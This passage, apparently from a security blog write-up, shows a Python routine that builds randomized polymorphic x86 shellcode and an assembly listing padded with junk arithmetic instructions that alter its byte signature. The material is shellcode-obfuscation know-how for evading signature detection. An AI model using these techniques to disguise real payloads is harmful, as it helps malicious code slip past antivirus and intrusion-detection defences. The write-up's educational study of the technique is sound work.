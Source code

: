     shuffle(setup_blk);

    jmp_adj = format((255 - byte_len(init_blk) - byte_len(setup_blk) - 3), '02x')

    shellcode="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+jmp_adj;

    par = randint(1,255);
    shellcode=shellcode.replace("$$", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("??", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("%%", str(format(par, 'x')));
    return shellcode

{%endhighlight%}

### Do some math

For the math strategy, I used the same approach used in execve example, adding
some add and sub instructions for EBX, ECX and EDX registers that doesn't need
to have a meaningful value.

{%highlight asm%}
global _start

section .text

_start:
	sub	eax, eax
	mov	al, 0xF3
	sub	al, 0xE2

	sub 	ebx, ebx
	sub 	ecx, ecx
	sub 	edx, edx

	andn	ebx, ebx, ebx
	andn	ecx, ecx, ecx
	andn	edx, edx, edx

	add ebx, 0x4
	add ecx, 0x5
	add edx, 0x6

	sub ebx, 0x4
	sub ecx, 0x5
	sub edx, 0x6

	push 0x3
	pop ebx

	push 0x4
	pop ecx

	push 0x5
	pop edx

{%endhighlight%}
